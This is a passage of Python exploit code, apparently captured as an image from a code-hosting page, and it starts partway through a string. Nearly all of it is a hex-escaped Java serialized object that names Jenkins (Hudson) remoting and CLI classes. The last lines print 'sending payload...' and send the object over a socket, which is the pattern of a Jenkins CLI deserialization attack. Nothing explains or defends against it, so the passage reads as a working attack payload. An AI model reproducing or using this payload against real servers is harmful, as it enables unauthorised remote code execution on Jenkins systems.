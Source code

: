 ```python
\x30\x74\x00\x19\x4c\x68\x75\x64\x73\x6f\x6e\x2f\x72\x65\x6d\x6f\x74\x69\x6e\x67\x2f\x43\x6f\x6d\x6d\x61\x6e\x64\x3b\x77\x04\x00\x00\x00\x00\x78\x72\x00\x13\x6a\x61\x76\x61\x2e\x6c\x61\x6e\x67\x2e\x45\x78\x63\x65\x70\x74\x69\x6f\x6e\xd0\xfd\x1f\x3e\x1a\x3b\x1c\xc4\x02\x00\x00\x77\x04\xff\xff\xff\xfd\x78\x72\x00\x13\x6a\x61\x76\x61\x2e\x6c\x61\x6e\x67\x2e\x54\x68\x72\x6f\x77\x61\x62\x6c\x65\xd5\xc6\x35\x27\x39\x77\xb8\xcb\x03\x00\x04\x4c\x00\x05\x63\x61\x75\x73\x65\x74\x00\x15\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x54\x68\x72\x6f\x77\x61\x62\x6c\x65\x3b\x4c\x00\x0d\x64\x65\x74\x61\x69\x6c\x4d\x65\x73\x73\x61\x67\x65\x71\x00\x7e\x00\x02\x5b\x00\x0a\x73\x74\x61\x63\x6b\x54\x72\x61\x63\x65\x74\x00\x1e\x5b\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x53\x74\x61\x63\x6b\x54\x72\x61\x63\x65\x45\x6c\x65\x6d\x65\x6e\x74\x3b\x4c\x00\x14\x73\x75\x70\x70\x72\x65\x73\x73\x65\x64\x45\x78\x63\x65\x70\x74\x69\x6f\x6e\x73\x74\x00\x10\x4c\x6a\x61\x76\x61\x2f\x75\x74\x69\x6c\x2f\x4c\x69\x73\x74\x3b\x77\x04\xff\xff\xff\xfd\x78\x70\x71\x00\x7e\x00\x10\x70\x75\x72\x00\x1e\x5b\x4c\x6a\x61\x76\x61\x2e\x6c\x61\x6e\x67\x2e\x53\x74\x61\x63\x6b\x54\x72\x61\x63\x65\x45\x6c\x65\x6d\x65\x6e\x74\x3b\x02\x46\x2a\x3c\x3c\xfd\x22\x39\x02\x00\x00\x77\x04\xff\xff\xff\xfd\x78\x70\x00\x00\x00\x0b\x73\x72\x00\x1b\x6a\x61\x76\x61\x2e\x6c\x61\x6e\x67\x2e\x53\x74\x61\x63\x6b\x54\x72\x61\x63\x65\x45\x6c\x65\x6d\x65\x6e\x74\x61\x09\xc5\x9a\x26\x36\xdd\x85\x02\x00\x04\x49\x00\x0a\x6c\x69\x6e\x65\x4e\x75\x6d\x62\x65\x72\x4c\x00\x0e\x64\x65\x63\x6c\x61\x72\x69\x6e\x67\x43\x6c\x61\x73\x73\x71\x00\x7e\x00\x02\x4c\x00\x08\x66\x69\x6c\x65\x4e\x61\x6d\x65\x71\x00\x7e\x00\x02\x4c\x00\x0a\x6d\x65\x74\x68\x6f\x64\x4e\x61\x6d\x65\x71\x00\x7e\x00\x02\x77\x04\xff\xff\xff\xfd\x78\x70\x00\x00\x00\x43\x74\x00\x17\x68\x75\x64\x73\x6f\x6e\x2e\x72\x65\x6d\x6f\x74\x69\x6e\x67\x2e\x43\x6f\x6d\x6d\x61\x6e\x64\x74\x00\x0c\x43\x6f\x6d\x6d\x61\x6e\x64\x2e\x6a\x61\x76\x61\x74\x00\x06\x3c\x69\x6e\x69\x74\x3e\x73\x71\x00\x7e\x00\x13\x00\x00\x00\x32\x71\x00\x7e\x00\x15\x71\x00\x7e\x00\x16\x71\x00\x7e\x00\x17\x73\x71\x00\x7e\x00\x13\x00\x00\x00\x63\x74\x00\x17\x68\x75\x64\x73\x6f\x6e\x2e\x72\x65\x6d\x6f\x74\x69\x6e\x67\x2e\x52\x65\x71\x75\x65\x73\x74\x74\x00\x0c\x52\x65\x71\x75\x65\x73\x74\x2e\x6a\x61\x76\x61\x71\x00\x7e\x00\x17\x73\x71\x00\x7e\x00\x13\x00\x00\x02\x39\x74\x00\x32\x68\x75\x64\x73\x6f\x6e\x2e\x72\x65\x6d\x6f\x74\x69\x6e\x67\x2e\x52\x65\x6d\x6f\x74\x65\x49\x6e\x76\x6f\x63\x61\x74\x69\x6f\x6e\x48\x61\x6e\x64\x6c\x65\x72\x24\x52\x50\x43\x52\x65\x71\x75\x65\x73\x74\x74\x00\x1c\x52\x65\x6d\x6f\x74\x65\x49\x6e\x76\x6f\x63\x61\x74\x69\x6f\x6e\x48\x61\x6e\x64\x6c\x65\x72\x2e\x6a\x61\x76\x61\x71\x00\x7e\x00\x17\x73\x71\x00\x7e\x00\x13\x00\x00\x00\xf6\x74\x00\x27\x68\x75\x64\x73\x6f\x6e\x2e\x72\x65\x6d\x6f\x74\x69\x6e\x67\x2e\x52\x65\x6d\x6f\x74\x65\x49\x6e\x76\x6f\x63\x61\x74\x69\x6f\x6e\x48\x61\x6e\x64\x6c\x65\x72\x71\x00\x7e\x00\x1e\x74\x00\x06\x69\x6e\x76\x6f\x6b\x65\x73\x71\x00\x7e\x00\x13\xff\xff\xff\xff\x74\x00\x17\x68\x75\x64\x73\x6f\x6e\x2e\x72\x65\x6d\x6f\x74\x69\x6e\x67\x2e\x24\x50\x72\x6f\x78\x79\x31\x70\x74\x00\x0f\x77\x61\x69\x74\x46\x6f\x72\x50\x72\x6f\x70\x65\x72\x74\x79\x73\x71\x00\x7e\x00\x13\x00\x00\x04\xe7\x74\x00\x17\x68\x75\x64\x73\x6f\x6e\x2e\x72\x65\x6d\x6f\x74\x69\x6e\x67\x2e\x43\x68\x61\x6e\x6e\x65\x6c\x74\x00\x0c\x43\x68\x61\x6e\x6e\x65\x6c\x2e\x6a\x61\x76\x61\x74\x00\x15\x77\x61\x69\x74\x46\x6f\x72\x52\x65\x6d\x6f\x74\x65\x50\x72\x6f\x70\x65\x72\x74\x79\x73\x71\x00\x7e\x00\x13\x00\x00\x00\x93\x74\x00\x0e\x68\x75\x64\x73\x6f\x6e\x2e\x63\x6c\x69\x2e\x43\x4c\x49\x74\x00\x08\x43\x4c\x49\x2e\x6a\x61\x76\x61\x71\x00\x7e\x00\x17\x73\x71\x00\x7e\x00\x13\x00\x00\x00\x48\x74\x00\x1f\x68\x75\x64\x73\x6f\x6e\x2e\x63\x6c\x69\x2e\x43\x4c\x49\x43\x6f\x6e\x6e\x65\x63\x74\x69\x6f\x6e\x46\x61\x63\x74\x6f\x72\x79\x74\x00\x19\x43\x4c\x49\x43\x6f\x6e\x6e\x65\x63\x74\x69\x6f\x6e\x46\x61\x63\x74\x6f\x72\x79\x2e\x6a\x61\x76\x61\x74\x00\x07\x63\x6f\x6e\x6e\x65\x63\x74\x73\x71\x00\x7e\x00\x13\x00\x00\x01\xdf\x71\x00\x7e\x00\x2a\x71\x00\x7e\x00\x2b\x74\x00\x05\x5f\x6d\x61\x69\x6e\x73\x71\x00\x7e\x00\x13\x00\x00\x01\x86\x71\x00\x7e\x00\x2a\x71\x00\x7e\x00\x2b\x74\x00\x04\x6d\x61\x69\x6e\x73\x72\x00\x26\x6a\x61\x76\x61\x2e\x75\x74\x69\x6c\x2e\x43\x6f\x6c\x6c\x65\x63\x74\x69\x6f\x6e\x73\x24\x55\x6e\x6d\x6f\x64\x69\x66\x69\x61\x62\x6c\x65\x4c\x69\x73\x74\xfc\x0f\x25\x31\xb5\xec\x8e\x10\x02\x00\x01\x4c\x00\x04\x6c\x69\x73\x74\x71\x00\x7e\x00\x0f\x77\x04\xff\xff\xff\xfd\x78\x72\x00\x2c\x6a\x61\x76\x61\x2e\x75\x74\x69\x6c\x2e\x43\x6f\x6c\x6c\x65\x63\x74\x69\x6f\x6e\x73\x24\x55\x6e\x6d\x6f\x64\x69\x66\x69\x61\x62\x6c\x65\x43\x6f\x6c\x6c\x65\x63\x74\x69\x6f\x6e\x19\x42\x00\x80\xcb\x5e\xf7\x1e\x02\x00\x01\x4c\x00\x01\x63\x74\x00\x16\x4c\x6a\x61\x76\x61\x2f\x75\x74\x69\x6c\x2f\x43\x6f\x6c\x6c\x65\x63\x74\x69\x6f\x6e\x3b\x77\x04\xff\xff\xff\xfd\x78\x70\x73\x72\x00\x13\x6a\x61\x76\x61\x2e\x75\x74\x69\x6c\x2e\x41\x72\x72\x61\x79\x4c\x69\x73\x74\x78\x81\xd2\x1d\x99\xc7\x61\x9d\x03\x00\x01\x49\x00\x04\x73\x69\x7a\x65\x77\x04\xff\xff\xff\xfd\x78\x70\x00\x00\x00\x00\x77\x04\x00\x00\x00\x00\x78\x71\x00\x7e\x00\x39\x78\x71\x00\x7e\x00\x08\x00\x00\x00\x00\x00\x00\x00\x00\x70\x00\x00\x00\x01\x75\x72\x00\x13\x5b\x4c\x6a\x61\x76\x61\x2e\x6c\x61\x6e\x67\x2e\x4f\x62\x6a\x65\x63\x74\x3b\x90\xce\x58\x9f\x10\x73\x29\x6c\x02\x00\x00\x77\x04\xff\xff\xff\xfd\x78\x70\x00\x00\x00\x01\x74\x00\x18\x68\x75\x64\x73\x6f\x6e\x2e\x63\x6c\x69\x2e\x43\x6c\x69\x45\x6e\x74\x72\x79\x50\x6f\x69\x6e\x74\x71\x00\x7e\x00\x24\x75\x72\x00\x13\x5b\x4c\x6a\x61\x76\x61\x2e\x6c\x61\x6e\x67\x2e\x53\x74\x72\x69\x6e\x67\x3b\xad\xd2\x56\xe7\xe9\x1d\x7b\x47\x02\x00\x00\x77\x04\xff\xff\xff\xfd\x78\x70\x00\x00\x00\x01\x74\x00\x10\x6a\x61\x76\x61\x2e\x6c\x61\x6e\x67\x2e\x4f\x62\x6a\x65\x63\x74\x74\x00\x1d\x52\x50\x43\x52\x65\x71\x75\x65\x73\x74\x28\x31\x2c\x77\x61\x69\x74\x46\x6f\x72\x50\x72\x6f\x70\x65\x72\x74\x79\x29'
print 'sending payload...'
sock.send(payload)
data = sock.recv(1024)
```